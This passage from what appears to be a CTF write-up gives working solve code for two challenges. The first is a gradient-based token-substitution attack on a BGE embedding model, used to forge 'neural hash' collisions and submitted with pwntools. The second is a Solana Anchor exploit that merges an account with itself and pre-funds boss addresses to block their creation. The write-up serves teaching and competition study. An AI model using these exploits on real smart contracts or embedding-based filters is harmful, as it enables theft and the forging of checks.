                # only replace the last </s> in the control_cand_text
                # control_cand_text = control_cand_text.replace('</s>', '')
                cands.append(control_cand_text)
        except:
            pass

    return cands

def trans(embedding):
    if embedding.shape[0] == 1:
        embedding = embedding.squeeze(0)
    sgn = torch.sign(mask * embedding).detach().requires_grad_()
    return F.relu(sgn)

class DiceLoss(nn.Module):
    def __init__(self, idx, smooth=1e-6):
        super(DiceLoss, self).__init__()
        self.smooth = smooth  # 避免分母为 0
        self.idx = idx

    def forward(self, preds, targets):
        preds = preds[..., self.idx]
        targets = targets[..., self.idx]
        pred_flat = preds.view(-1)
        target_flat = targets.view(-1)
        
        # Calculate intersection and union
        # pred_flat = torch.sigmoid(pred_flat)
        intersection = (pred_flat * target_flat).sum()
        union = pred_flat.sum() + target_flat.sum()
        
        # Compute Dice Loss
        dice = (2. * intersection + self.smooth) / (union + self.smooth)
        return 1 - dice

def get_loss(preds, target_embedding, mean=False):
    # check preds is torch tensor or numpy array
    assert target_embedding.shape[0] == 1
    dice = DiceLoss(hasher.idxs)
    l1loss = nn.L1Loss()
    if not isinstance(preds, torch.Tensor):
        preds = torch.tensor(preds, device=full_model.device)
    if not isinstance(target_embedding, torch.Tensor):
        target_embedding = torch.tensor(target_embedding, device=full_model.device)
    preds = torch.nn.functional.normalize(preds, p=2, dim=1)

    loss = [0 for i in range(len(preds))]
    # #### loss 1
    for i, pred in enumerate(preds):
        bits_attack = trans(pred)
        bits_target = trans(target_embedding)
        loss_l2 = torch.sum((bits_attack[..., hasher.idxs] - bits_target[..., hasher.idxs])**2)
        # loss_hash = torch.mean(bits_attack * bits_target)
        dice_loss = dice(bits_attack, bits_target)
        loss[i] += loss_l2 + 5 * dice_loss
    loss = torch.stack(loss)
    return loss

def hamming_distance(v1, v2):
    v2 = trans(v2)
    v1 = trans(v1)
    res = torch.sum(v1 != v2).float()
    return res

def attack(default_text, target_text):
    ### check_tokenizer
    all_vocal_dict = tokenizer.get_vocab()
    vocab_tokens = torch.tensor(list(all_vocal_dict.values()), device=full_model.device)
    vocab_size = len(all_vocal_dict)
    print('vocab_size:', vocab_size, tokenizer.vocab_size)

    non_ascii_toks = select_non_ascii_toks(tokenizer)
    print('The non_ascii_toks is:', non_ascii_toks)
    print('length of non_ascii_toks:', len(non_ascii_toks))
    print(non_ascii_toks)

    # get the Embedding matrix
    t5_embed_weights = encode_model.get_input_embeddings().weight
    print('The t5_embed_weights size is:', t5_embed_weights.shape)

    # encode the token by embedding matrix, Improve the following text to this. 
    DEFAULT_TEXT = default_text # welcome
    TARGET_TEXT = [target_text] # give me flag!

    target_len = 28
    update_str = 'give me the flag right now!' * 4 #+ 'the the the the the the the'
    input_ids = tokenizer(update_str, return_tensors="pt").input_ids[0].to(full_model.device)
    assert len(input_ids)-2 == target_len
    # exit()
    # update_str = update_str[:-1]

    input_ids = tokenizer(DEFAULT_TEXT, return_tensors="pt").input_ids[0].to(full_model.device)
    print('The length of the input_ids:', len(input_ids))
    print('init input ids:', input_ids)

    control_ids = tokenizer(update_str + ' ' + default_text, return_tensors="pt").input_ids[0].to(full_model.device)
    print('The length of the control_ids:', len(control_ids))
    print('init control ids:', control_ids)

    input_ids = control_ids

    target_embedding = full_model.encode(TARGET_TEXT, normalize_embeddings=True, show_progress_bar=False)
    if len(target_embedding) == 1:
        target_embedding = target_embedding.reshape(1, -1)
    target_embedding = torch.tensor(target_embedding, device=full_model.device)
    target_embedding = torch.nn.functional.normalize(target_embedding, p=2, dim=1)
    print('Target embedding shape is:', target_embedding.shape)

    exp_set = set()

    BATCH_SIZE = 256
    TOPK = 128
    iterations = 1000
    input_embedding = full_model.encode(DEFAULT_TEXT, normalize_embeddings=True, show_progress_bar=False).reshape(1, -1)

    best_loss = get_loss(input_embedding, target_embedding)
    best_diff = 128
    print('The init loss is:', best_loss)
    h1 = bin(int(hasher.hash(update_str + ' ' + default_text), 16))[2:]
    h2 = bin(int(hasher.hash(target_text), 16))[2:]
    _cnt = 0
    for kk in range(len(h1)):
        if h1[kk] != h2[kk]:
            _cnt += 1
    print('INIT DIFF:', _cnt)
    # exit()

    for i in range(iterations):
        if i >= 100 and len(exp_set) == 0:
            return []
        print('The iteration:', i)
        # get the gradients
        grad = token_gradients(input_ids, target_embedding, t5_embed_weights, vocab_size)
        averaged_grad = -grad / grad.norm(dim=-1, keepdim=True)
        print('The shape of the averaged_grad:', averaged_grad.shape)

        with torch.no_grad():
            # ramove the 1st token grad and last token grad
            averaged_grad = averaged_grad[1:1+target_len, :]
            print('The shape of the averaged_grad:', averaged_grad.shape)

            control_cand = sample_control(averaged_grad, input_ids[1:1+target_len], non_ascii_toks, BATCH_SIZE, TOPK)
            print('The shape of the control_cand:', control_cand.shape)

            full_control_cand = torch.cat([input_ids[0].repeat(BATCH_SIZE, 1), control_cand, input_ids[1+target_len:].repeat(BATCH_SIZE, 1)], dim=1)
            # full_control_cand = torch.cat([control_cand, input_ids[-1].repeat(start_idx, 1)], dim=1)

            candidates = get_filtered_cands(full_control_cand)
            print('The number of the candidates:', len(candidates))

        
        with torch.no_grad():
            ### batch prediction
            model_outputs = full_model.encode(candidates, normalize_embeddings=True, show_progress_bar=False)
            # print(model_outputs.shape)

            losses = get_loss(model_outputs, target_embedding)
            # print(losses)

            curr_best_loss, best_idx = torch.min(losses, dim=0)
            # print('Curr best loss:', curr_best_loss, best_idx)
            # print('Global best loss:', best_loss)
            print('Global best diff:', best_diff)
            curr_best_input = candidates[best_idx]
            curr_best_control = control_cand[best_idx]

            test_out = model_outputs[best_idx]
            res = [str(int(test_out[i] > 0)) for i in hasher.idxs]
            test_res = ''.join(res)

            # best_input_1 = ' '.join(curr_best_input.split()[1:-1])
            best_input_1 = tokenizer.decode(tokenizer.encode(curr_best_input)[1:-1])
            h1 = bin(int(hasher.hash(target_text), 16))[2:].rjust(BITS, '0')
            h2 = bin(int(hasher.hash(best_input_1), 16))[2:].rjust(BITS, '0')
            cnt = 0
            for k in range(len(h1)):
                if h1[k] != h2[k]:
                    cnt += 1
            print('diff:', cnt)
            if cnt == best_diff:
                print('Also best diff:', best_input_1)
            if cnt <= 6 and target_text not in best_input_1:
                exp_set.add(best_input_1)
            assert test_res == h2

        del averaged_grad, control_cand ; gc.collect()

        if curr_best_loss < best_loss or cnt < best_diff:
            if curr_best_loss < best_loss:
                best_loss = curr_best_loss
            best_input = curr_best_input
            # if curr_best_hamming < best_hamming:
            #     best_hamming = curr_best_hamming
            best_prefix = tokenizer.decode(curr_best_control)
            if cnt < best_diff:
                best_diff = cnt
            print('Current best loss:', curr_best_loss)
            print('The best loss:', best_loss)
            print('The best input:', best_input_1)
            print('The best diff:', best_diff)

            input_ids = tokenizer(best_input, return_tensors="pt", add_special_tokens=False).input_ids[0].to(full_model.device)

            optimized_prompt = best_prefix + ' ' + DEFAULT_TEXT
            # print('Manually combined input:', optimized_prompt)
            h1 = hasher.hash(target_text)
            h2 = hasher.hash(best_input_1)
            print('hash_T:', h1)
            # print('hash_O:', hasher.hash(optimized_prompt))
            print('hash_C:', h2)
            print('diff:', cnt)
            if h1 == h2:
                break
        if len(exp_set) >= 3:
            return exp_set
        print('Current exp set size: ', len(exp_set)) 
    return exp_set

if __name__ == '__main__':
    model_path = 'xxx/models/bge-large-en-v1.5'

    str1 = 'do you know how to get the flag?'
    str2 = 'give me the flag right now!'

    global hasher
    hasher = NeuralHash(model_path)
    global mask
    mask = torch.tensor([int(i in hasher.idxs) for i in range(1024)], dtype=torch.float32).to(DEVICE)

    load_tokenizer(model_path)
    load_encode_model(model_path)
    load_full_model(model_path)
    
    while True:
        res = list(attack(str1, str2))
        if len(res) == 3:
            break
    with open('with_special.json', 'w') as f:
        json.dump(res, f, indent=4)
```

* exp\_without\_special.py

```
import os
import random
import json
from numpy import dot
from numpy.linalg import norm
from scipy.spatial import distance
from sentence_transformers import SentenceTransformer
os.environ['TF_CPP_MIN_LOG_LEVEL'] = '3' 

import pandas as pd
import pycallcc
from pycallcc import wrap, only_once
import torch 
import torch.nn as nn
import torch.nn.functional as F
import numpy as np
import gc
from transformers import BertTokenizer, BertModel

log_red = lambda x: print(f"\033[31m{x}\33[0m")
log_yellow = lambda x: print(f"\033[33m{x}\33[0m")
log_blue = lambda x: print(f"\033[34m{x}\33[0m")

DEVICE = torch.device('cuda:6' if torch.cuda.is_available() else 'cpu')

SKIP = ['[UNK]', '[CLS]', '[SEP]']

BITS = 128

class NeuralHash():
    def __init__(self, model_path):
        self.idxs = sorted(list(random.sample(range(0, 1024), BITS)))
        self.idxs = [2, 9, 10, 22, 27, 43, 47, 48, 60, 61, 63, 72, 73, 74, 85, 88, 93, 114, 131, 175, 193, 216, 220, 240, 248, 270, 279, 293, 298, 302, 306, 308, 324, 330, 338, 357, 358, 367, 383, 401, 405, 413, 416, 439, 441, 447, 450, 466, 471, 483, 485, 492, 500, 510, 516, 524, 525, 536, 540, 542, 547, 549, 551, 559, 573, 578, 593, 601, 608, 612, 614, 616, 622, 623, 625, 634, 638, 644, 655, 656, 682, 684, 686, 690, 691, 716, 734, 744, 756, 763, 766, 772, 777, 788, 797, 819, 823, 837, 851, 852, 859, 863, 875, 876, 879, 881, 883, 889, 898, 901, 934, 939, 941, 945, 957, 959, 963, 970, 983, 994, 995, 997, 999, 1000, 1001, 1011, 1014, 1022]
        self.model = SentenceTransformer(model_path)

    def embed(self, string):
        return self.model.encode(string, normalize_embeddings=True)

    def hash(self, string):
        embedding = self.embed(string)
        res = [str(int(embedding[i] > 0)) for i in self.idxs]
        hash_value = hex(int(''.join(res), 2))
        return hash_value

def load_tokenizer(path):
    global tokenizer
    tokenizer = BertTokenizer.from_pretrained(path)
    print('The tokenizer is loaded successfully.')


def load_encode_model(path):
    global encode_model
    encode_model = BertModel.from_pretrained(path)
    encode_model = encode_model.to(DEVICE)
    print('The encode model is loaded successfully.')


def load_full_model(path):
    global full_model
    full_model = SentenceTransformer(path)
    full_model = full_model.to(DEVICE)
    print('The full model is loaded successfully.')

def token_gradients(input_ids, target_embedding, t5_embed_weights, vocab_size):
    
    one_hot_input = torch.zeros(
        input_ids.shape[0],
        vocab_size,
        device=full_model.device,
        dtype=torch.float32
    )
    ### check the shape of one_hot_input
    # print('The shape of one_hot_input:', one_hot_input.shape)
    # print(input_ids.unsqueeze(1).shape)
    # print(torch.ones(one_hot_input.shape[0], 1).shape)

    one_hot_input.scatter_(
        1,
        input_ids.unsqueeze(1),
        torch.ones(one_hot_input.shape[0], 1, device=full_model.device, dtype=torch.float32)
    )
    one_hot_input.requires_grad = True

    embedding_results = one_hot_input @ t5_embed_weights
    embedding_results = embedding_results.unsqueeze(0)

    encode_output = encode_model(inputs_embeds=embedding_results)

    # inputs is a dict with key "token_embeddings", 
    # value is encode_output.last_hidden_state
    inputs = dict(token_embeddings=encode_output.last_hidden_state.to(full_model.device),
                  attention_mask=torch.ones(input_ids.shape, device=full_model.device)
                  )
    # print('The inputs is:', inputs)
    
    for idx, module in enumerate(full_model):
        # check the module type is Transformer or not
        # print(module)
        if idx > 0:
            inputs = module(inputs)
    # normalize the output
    inputs = inputs['sentence_embedding']        
    outputs = torch.nn.functional.normalize(inputs, p=2, dim=1)

    # TODO: check the target is single or batch
    if target_embedding.shape[0] == 1:
        loss = torch.nn.functional.cosine_similarity(outputs, target_embedding) ** 3
    else:
        # ensemble the loss of different target_embedding
        loss = torch.nn.functional.cosine_similarity(outputs, target_embedding) ** 3
        loss = loss.mean()

    loss.backward()
    # print(one_hot_input.grad)
    # print(one_hot_input.grad.shape)
    return one_hot_input.grad

def sample_control(grad, control_toks, non_ascii_toks, batch_size=256, topk=128, allow_non_ascii=True):

    if not allow_non_ascii:
        # grad[:, vocab_tokens.to(grad.device)] = np.infty
        grad[:, non_ascii_toks.to(grad.device)] = -np.infty
        print('grad shape:', grad.shape)
        print(non_ascii_toks)
        exit()

    # top_indices = (-grad).topk(topk, dim=1).indices
    top_indices = (grad).topk(topk, dim=1).indices
    # print('Shape of top_indices:', top_indices.shape)

    original_control_toks = control_toks.repeat(batch_size, 1)
    new_token_pos = torch.arange(
        0, 
        len(control_toks), 
        len(control_toks) / batch_size,
        device=grad.device
    ).type(torch.int64)
    # print('the shape of new_token_pos is: ', new_token_pos.shape)

    new_token_val = torch.gather(
        top_indices[new_token_pos], 1, 
        torch.randint(0, topk, (batch_size, 1), device=grad.device)
    )
    # print('the shape of new_token_val is: ', new_token_val.shape)

    new_control_toks = original_control_toks.scatter_(1, new_token_pos.unsqueeze(-1), new_token_val)
    return new_control_toks

def select_non_ascii_toks(tokenizer):
    def is_ascii(s):
        return s.isascii() and s.isprintable()

    non_ascii_toks = []
    for i in range(3, tokenizer.vocab_size):
        if not is_ascii(tokenizer.decode([i])):
            non_ascii_toks.append(i)

    return torch.tensor(non_ascii_toks, device=full_model.device)

def get_filtered_cands(control_cand):
    # decode the control_cand to text, and tokenize the text, check the token changed or not
    cands = []
    for i in range(control_cand.shape[0]):
        control_cand_text = tokenizer.decode(control_cand[i])
        control_cand_token = tokenizer(control_cand_text, return_tensors="pt", add_special_tokens=False).input_ids[0].to(full_model.device)

        # print(control_cand[i].shape, control_cand[i], tokenizer.decode(control_cand[i]))
        # print(control_cand_token.shape, control_cand_token, tokenizer.decode(control_cand_token))
        # exit(0)

        try:
            if torch.all(control_cand_token == control_cand[i]):
                # only replace the last </s> in the control_cand_text
                # control_cand_text = control_cand_text.replace('</s>', '')
                cands.append(control_cand_text)
        except:
            pass

    return cands

def trans(embedding):
    if embedding.shape[0] == 1:
        embedding = embedding.squeeze(0)
    sgn = torch.sign(mask * embedding).detach().requires_grad_()
    return F.relu(sgn)

class DiceLoss(nn.Module):
    def __init__(self, idx, smooth=1e-6):
        super(DiceLoss, self).__init__()
        self.smooth = smooth  # 避免分母为 0
        self.idx = idx

    def forward(self, preds, targets):
        preds = preds[..., self.idx]
        targets = targets[..., self.idx]
        pred_flat = preds.view(-1)
        target_flat = targets.view(-1)
        
        # Calculate intersection and union
        # pred_flat = torch.sigmoid(pred_flat)
        intersection = (pred_flat * target_flat).sum()
        union = pred_flat.sum() + target_flat.sum()
        
        # Compute Dice Loss
        dice = (2. * intersection + self.smooth) / (union + self.smooth)
        return 1 - dice

def get_loss(preds, target_embedding, mean=False):
    # check preds is torch tensor or numpy array
    assert target_embedding.shape[0] == 1
    dice = DiceLoss(hasher.idxs)
    l1loss = nn.L1Loss()
    # criteria = DiceLoss(hasher.idxs)
    if not isinstance(preds, torch.Tensor):
        preds = torch.tensor(preds, device=full_model.device)
    if not isinstance(target_embedding, torch.Tensor):
        target_embedding = torch.tensor(target_embedding, device=full_model.device)
    # print(preds.shape, target_embedding.shape)
    # exit()
    preds = torch.nn.functional.normalize(preds, p=2, dim=1)

    loss = [0 for i in range(len(preds))]
    # #### loss 1
    for i, pred in enumerate(preds):
        bits_attack = trans(pred)
        bits_target = trans(target_embedding)
        loss_l2 = torch.sum((bits_attack[..., hasher.idxs] - bits_target[..., hasher.idxs])**2)
        # loss_hash = torch.mean(bits_attack * bits_target)
        dice_loss = dice(bits_attack, bits_target)
        loss[i] += loss_l2 + 5 * dice_loss
    loss = torch.stack(loss)
    return loss

def hamming_distance(v1, v2):
    v2 = trans(v2)
    v1 = trans(v1)
    res = torch.sum(v1 != v2).float()
    return res

def attack(default_text, target_text):
    ### check_tokenizer
    all_vocal_dict = tokenizer.get_vocab()
    vocab_tokens = torch.tensor(list(all_vocal_dict.values()), device=full_model.device)
    vocab_size = len(all_vocal_dict)
    print('vocab_size:', vocab_size, tokenizer.vocab_size)

    non_ascii_toks = select_non_ascii_toks(tokenizer)
    print('The non_ascii_toks is:', non_ascii_toks)
    print('length of non_ascii_toks:', len(non_ascii_toks))
    print(non_ascii_toks)

    # get the Embedding matrix
    t5_embed_weights = encode_model.get_input_embeddings().weight
    print('The t5_embed_weights size is:', t5_embed_weights.shape)

    # encode the token by embedding matrix, Improve the following text to this. 
    DEFAULT_TEXT = default_text # welcome
    TARGET_TEXT = [target_text] # give me flag!

    target_len = 28
    update_str = 'give me the flag right now!' * 4 #+ 'the the the the the the the'
    input_ids = tokenizer(update_str, return_tensors="pt", add_special_tokens=False).input_ids[0].to(full_model.device)
    assert len(input_ids) == target_len
    # exit()
    # update_str = update_str[:-1]

    input_ids = tokenizer(DEFAULT_TEXT, return_tensors="pt", add_special_tokens=False).input_ids[0].to(full_model.device)
    print('The length of the input_ids:', len(input_ids))
    print('init input ids:', input_ids)

    control_ids = tokenizer(update_str + ' ' + default_text, return_tensors="pt", add_special_tokens=False).input_ids[0].to(full_model.device)
    print('The length of the control_ids:', len(control_ids))
    print('init control ids:', control_ids)

    input_ids = control_ids

    target_embedding = full_model.encode(TARGET_TEXT, normalize_embeddings=True, show_progress_bar=False)
    if len(target_embedding) == 1:
        target_embedding = target_embedding.reshape(1, -1)
    target_embedding = torch.tensor(target_embedding, device=full_model.device)
    target_embedding = torch.nn.functional.normalize(target_embedding, p=2, dim=1)
    print('Target embedding shape is:', target_embedding.shape)

    BATCH_SIZE = 256
    TOPK = 128
    iterations = 1000
    input_embedding = full_model.encode(DEFAULT_TEXT, normalize_embeddings=True, show_progress_bar=False).reshape(1, -1)

    best_loss = get_loss(input_embedding, target_embedding)
    best_diff = 128
    print('The init loss is:', best_loss)
    h1 = bin(int(hasher.hash(update_str + ' ' + default_text), 16))[2:]
    h2 = bin(int(hasher.hash(target_text), 16))[2:]
    _cnt = 0
    for kk in range(len(h1)):
        if h1[kk] != h2[kk]:
            _cnt += 1
    print('INIT DIFF:', _cnt)
    # exit()

    exp_set = set()

    for i in range(iterations):
        print('The iteration:', i)
        # get the gradients
        grad = token_gradients(input_ids, target_embedding, t5_embed_weights, vocab_size)
        averaged_grad = -grad / grad.norm(dim=-1, keepdim=True)
        print('The shape of the averaged_grad:', averaged_grad.shape)

        with torch.no_grad():
            # ramove the 1st token grad and last token grad
            averaged_grad = averaged_grad[1:1+target_len, :]
            print('The shape of the averaged_grad:', averaged_grad.shape)

            control_cand = sample_control(averaged_grad, input_ids[1:1+target_len], non_ascii_toks, BATCH_SIZE, TOPK)
            print('The shape of the control_cand:', control_cand.shape)

            full_control_cand = torch.cat([input_ids[0].repeat(BATCH_SIZE, 1), control_cand, input_ids[1+target_len:].repeat(BATCH_SIZE, 1)], dim=1)
            # full_control_cand = torch.cat([control_cand, input_ids[-1].repeat(start_idx, 1)], dim=1)

            candidates = get_filtered_cands(full_control_cand)
            print('The number of the candidates:', len(candidates))

        
        with torch.no_grad():
            ### batch prediction
            model_outputs = full_model.encode(candidates, normalize_embeddings=True, show_progress_bar=False)
            # print(model_outputs.shape)

            losses = get_loss(model_outputs, target_embedding)
            # print(losses)

            curr_best_loss, best_idx = torch.min(losses, dim=0)
            # print('Curr best loss:', curr_best_loss, best_idx)
            # print('Global best loss:', best_loss)
            print('Global best diff:', best_diff)
            curr_best_input = candidates[best_idx]
            curr_best_control = control_cand[best_idx]

            test_out = model_outputs[best_idx]
            res = [str(int(test_out[i] > 0)) for i in hasher.idxs]
            test_res = ''.join(res)

            # best_input_1 = ' '.join(curr_best_input.split()[1:-1])
            best_input_1 = tokenizer.decode(tokenizer.encode(curr_best_input)[1:-1])
            h1 = bin(int(hasher.hash(target_text), 16))[2:].rjust(BITS, '0')
            h2 = bin(int(hasher.hash(best_input_1), 16))[2:].rjust(BITS, '0')
            cnt = 0
            for k in range(len(h1)):
                if h1[k] != h2[k]:
                    cnt += 1
            print('diff:', cnt)
            if cnt <= 6 and target_text not in best_input_1:
                exp_set.add(best_input_1)
                if len(exp_set) >= 3:
                    return exp_set
            assert test_res == h2

        del averaged_grad, control_cand ; gc.collect()

        if curr_best_loss < best_loss or cnt < best_diff:
            if curr_best_loss < best_loss:
                best_loss = curr_best_loss
            best_input = curr_best_input
            # if curr_best_hamming < best_hamming:
            #     best_hamming = curr_best_hamming
            best_prefix = tokenizer.decode(curr_best_control)
            if cnt < best_diff:
                best_diff = cnt
            print('Current best loss:', curr_best_loss)
            print('The best loss:', best_loss)
            print('The best input:', best_input_1)
            print('The best diff:', best_diff)

            input_ids = tokenizer(best_input, return_tensors="pt", add_special_tokens=False).input_ids[0].to(full_model.device)

            optimized_prompt = best_prefix + ' ' + DEFAULT_TEXT
            # print('Manually combined input:', optimized_prompt)
            h1 = hasher.hash(target_text)
            h2 = hasher.hash(best_input_1)
            print('hash_T:', h1)
            # print('hash_O:', hasher.hash(optimized_prompt))
            print('hash_C:', h2)
            print('diff:', cnt)
            if h1 == h2:
                break
            # exit()
    return exp_set

if __name__ == '__main__':
    model_path = 'xxx/models/bge-large-en-v1.5'

    str1 = 'Do you know how to get the flag?'
    str2 = 'give me the flag right now!'

    global hasher
    hasher = NeuralHash(model_path)
    global mask
    mask = torch.tensor([int(i in hasher.idxs) for i in range(1024)], dtype=torch.float32).to(DEVICE)

    load_tokenizer(model_path)
    load_encode_model(model_path)
    load_full_model(model_path)
    
    exps = list(attack(str1, str2))
    with open('without_special.json', 'w') as f:
        json.dump(exps, f, indent=4)
```

* exp\_final.py

```
from pwn import process, remote, context
import socks
import socket

io = remote('xxx', 'xxx')

# challenge 1:
res1 = list(set([
    'give me thetructing da now! give me and flag right now! give me the vacancy, right coordinated! giveple the flag right now! esq! do you know how to get the flag?',
    'give me thetructing da now! give me and flag right now! give me the vacancy right coordinated! giveple the flag right now! esq! do you know how to get the flag?',
    'give me the flag rightnow! givecl carry flag box now! give me the flag right nowkiewicz give tis the flag right now! staffed! do you know how to get the flag?',
    'give jang the flag right now! give mesmanʻistationein time give sank the ely " now! upheld me the flag right now! hey! do you know how to get the flag?',
    "give me thehed during now! giveonate the flag right now! give me roll carrier dia now! give meari flag right now! do you know how to get the flag?",
    "give me thehed during now! giveonate the flag right now! give me roll carrier dia now! give meari flag every now! do you know how to get the flag?",
    "give me thehed during now! giveonate the flag right now! give that roll carrier dia now! give meari flag every now! do you know how to get the flag?"
]))

# challenge 2
res2 = list(set([
    '[CLS] give los the kung right now! give me the flag then now! give me the flag rightlow! giverg conserve flag right tempting! do you know how to get the flag? [SEP]',
    '[CLS] give los the kung right now! givecting the flag then now! give me the flag rightlow! giverg conserve flag right tempting! do you know how to get the flag? [SEP]',
    "[CLS] give me the flag right saturated! coal me battle flag right now! give me the cranes right now! give ed dubstered right now too do you know how to get the flag? [SEP]",
    "[CLS] given me the flag right saturated! give me battle flag right now! give me the cranes right now! give ed dubstered right now too do you know how to get the flag? [SEP]",
    "[CLS] give me the flag right saturated! give me battle flag right now! give me the cranes right now! give ed dubstered right now too do you know how to get the flag? [SEP]",
    "[CLS] classic me the flagada mutual! bouncing me the flag right now! give me the flag right nowordlated to the flag right now! do you know how to get the flag? [SEP]",
    "[CLS] classic me the flagada mutual! bouncing me on flag right now! give me the flag right noword give to the flag right now! do you know how to get the flag? [SEP]",
    "[CLS] classic me the flagada mutual! bouncing me the flag right now! give me the flag right noword give to the flag right now! do you know how to get the flag? [SEP]"
]))

for i in range(6):
    io.sendlineafter(b'> ', res1[i].encode())

for i in range(6):
    io.sendlineafter(b'> ', res2[i].encode())

io.interactive()
```

## Gacha Game

### Intro

本题实现了一个简单的抽卡与地牢探险游戏。玩家可以使用 SOL 代币抽取角色，通过合并相同角色来提升其属性，最终用升级后的角色挑战拥有 5 个 boss 的地牢以获得 flag。题目中预置了两个漏洞：

* **漏洞一**：允许玩家在不消耗资源的情况下对角色进行升级；
* **漏洞二**：导致地牢生成失败，从而在满足角色等级要求后直接获得 flag。

这道题的趣味性在于这两个漏洞均难以从合约层面直接发现。第一个漏洞需要选手理解 Anchor 框架宏展开后的代码细节，而第二个漏洞则要求选手熟悉 Solana runtime 中 system program 的实现细节。

### Vulnerability 1: Duplicate mutable accounts

由于玩家初始仅有 8 SOL，每次抽卡需要消耗 1 SOL，而获得 flag 的条件要求选择的三个进入地牢的角色总等级至少达到 10 级，因此显然必须找到一种既不额外消耗 SOL 又能提升角色等级的方法。

通过简单阅读抽卡的 gacha instruction 的实现，可以看出每次抽卡均会固定通过 transfer 支付 1 SOL，因此无法实现免费抽卡。于是我们只能寻找不消耗资源即可提升角色等级的途径。

```
/// Merge and level up same characters
pub fn merge(ctx: Context<Merge>, character1: u8, character2: u8) -> Result<()> {
    let player = &mut ctx.accounts.player;
    require_neq!(character1, character2, GameError::InvalidCharacter);

    let c1_key = player.characters[character1 as usize];
    let c2_key = player.characters[character2 as usize];

    require_keys_neq!(c1_key, Pubkey::default(), GameError::InvalidCharacter);
    require_keys_neq!(c2_key, Pubkey::default(), GameError::InvalidCharacter);
    require_keys_neq!(c1_key, c2_key, GameError::InvalidCharacter);

    let character1_account = &mut ctx.accounts.character1;
    let character2_account = &mut ctx.accounts.character2;

    require_eq!(&character1_account.info.name, &character2_account.info.name, GameError::InvalidCharacter);
    
    require_gt!(character1_account.level, 0, GameError::InvalidCharacter);
    require_gt!(10, character2_account.level, GameError::MaxLevel);

    character1_account.level -= 1;
    character1_account.attack -= 20;
    character1_account.defense -= 20;

    character2_account.level += 1;
    character2_account.attack += 20;
    character2_account.defense += 20;

    // Close character1 account if level == 0
    if character1_account.level == 0 {
        close_account(
            ctx.accounts.character1.to_account_info(),
            ctx.accounts.user.to_account_info(),
        )?;
        player.characters[character1 as usize] = Pubkey::default();
    }

    Ok(())
}
```

通过审计该合并角色以提升等级的 merge instruction，我们注意到对合并角色合法性的检查主要依赖传入的 `character1` 和 `character2` 两个参数，并没有确保这两个参数所对应的账户与实际传入的 accounts 一致。这意味着，攻击者可以将 `character1` 和 `character2` 都传入同一个账户。由于合约采用 Anchor 框架编写，Anchor 会自动处理账户的反序列化和序列化。当传入同一账户时，虽然程序中分别反序列化得到的 `character1_account` 与 `character2_account` 都能正确更新，但在执行结束时 Anchor 会对同一账户先后写入两次数据。这样一来，恶意用户在获得一个 2 级角色后，就可以利用该漏洞实现无限升级而不消耗任何资源。

### Vulnerability 2: Improper account initialization

获得 flag 的条件是所有 5 个 boss 账户均为空，只有在通过 boss\_fight instruction 击败 boss 后，相关 boss 账户才会被关闭，从而满足检查条件；但题目设定的 boss 拥有极高的攻击力与防御力，即使玩家使用三个满级角色进入地牢也无法击败最后一个 boss。因此，我们只能考虑在不击败 boss 的情况下获得 flag。

由于玩家可以在 admin 创建地牢之前发起操作，我们可以利用 generate\_dungeon instruction 中的漏洞对其进行拒绝服务攻击，从而阻止 boss 账户的正常创建，直接达到获得 flag 的条件。

```
pub fn generate_dungeon<'c: 'info, 'info>(ctx: Context<'_, '_, 'c, 'info, GenerateDungeon<'info>>, bosses: Vec<CharacterInfo>) -> Result<()> {
    let rent = Rent::get()?;

    for (idx, boss) in bosses.iter().enumerate() {
        // PDA check
        let (boss_pda, bump) = Pubkey::find_program_address(&[b"boss", &idx.to_le_bytes()], ctx.program_id);
        require_keys_eq!(
            *ctx.remaining_accounts[idx].key,
            boss_pda
        );

        // generate boss account
        create_account(
            CpiContext::new_with_signer(
                ctx.accounts.system_program.to_account_info(),
                CreateAccount {
                    from: ctx.accounts.admin.to_account_info(),
                    to: ctx.remaining_accounts[idx].clone(),
                },
                &[&[b"boss", &idx.to_le_bytes(), &[bump]]],
            ),
            rent.minimum_balance(8 + Boss::INIT_SPACE),
            8 + Boss::INIT_SPACE as u64,
            ctx.program_id,
        )?;

        // init character
        let boss_data = Boss {
            info: boss.clone(),
            level: idx as u8,
        }.try_to_vec()?;
        let boss_account = &mut ctx.remaining_accounts[idx].try_borrow_mut_data()?;
        boss_account[..8].copy_from_slice(&Boss::DISCRIMINATOR);
        boss_account[8..boss_data.len()+8].copy_from_slice(&boss_data);
    }

    Ok(())
}
```

审计 generate\_dungeon instruction 的实现时可知，boss 账户是通过 PDA 生成，并且使用 system program 的 create\_account 进行创建。值得注意的是，system program 的 create\_account 在创建账户之前会检查目标地址的余额是否为 0，如果不为 0，则会认为该地址已被占用，从而拒绝创建账户（详见：<https://github.com/solana-labs/solana/blob/7700cb3128c1f19820de67b81aa45d18f73d2ac0/programs/system/src/system_processor.rs#L157-L168>）

因此，我们可以提前计算出 boss 的地址，并向其转入一定数量的 lamports，导致 admin 无法正常创建 boss 账户，从而直接获得 flag。

### 完整 Exploits

#### 攻击合约

```
use anchor_lang::prelude::*;

declare_id!("4FYNmWbFutX4fPV9edZCJg6vNnZGva56WpKCPWWMkpuj");

#[program]
pub mod solve {

    use anchor_lang::system_program::{Transfer, transfer};

    use super::*;

    pub fn initialize(ctx: Context<Initialize>) -> Result<()> {
        // solve goes here:
        challenge::cpi::register(
            CpiContext::new(
                ctx.accounts.challenge.to_account_info(),
                challenge::cpi::accounts::Register {
                    player: ctx.accounts.player.to_account_info(),
                    user: ctx.accounts.user.to_account_info(),
                    system_program: ctx.accounts.system_program.to_account_info(),
                },
            )
        )?;
        challenge::cpi::gacha(
            CpiContext::new(
                ctx.accounts.challenge.to_account_info(),
                challenge::cpi::accounts::Gacha {
                    game: ctx.accounts.game.to_account_info(),
                    player: ctx.accounts.player.to_account_info(),
                    user: ctx.accounts.user.to_account_info(),
                    character: ctx.accounts.character0.to_account_info(),
                    system_program: ctx.accounts.system_program.to_account_info(),
                },
            )
        )?;
        challenge::cpi::gacha(
            CpiContext::new(
                ctx.accounts.challenge.to_account_info(),
                challenge::cpi::accounts::Gacha {
                    game: ctx.accounts.game.to_account_info(),
                    player: ctx.accounts.player.to_account_info(),
                    user: ctx.accounts.user.to_account_info(),
                    character: ctx.accounts.character1.to_account_info(),
                    system_program: ctx.accounts.system_program.to_account_info(),
                },
            )
        )?;
        challenge::cpi::gacha(
            CpiContext::new(
                ctx.accounts.challenge.to_account_info(),
                challenge::cpi::accounts::Gacha {
                    game: ctx.accounts.game.to_account_info(),
                    player: ctx.accounts.player.to_account_info(),
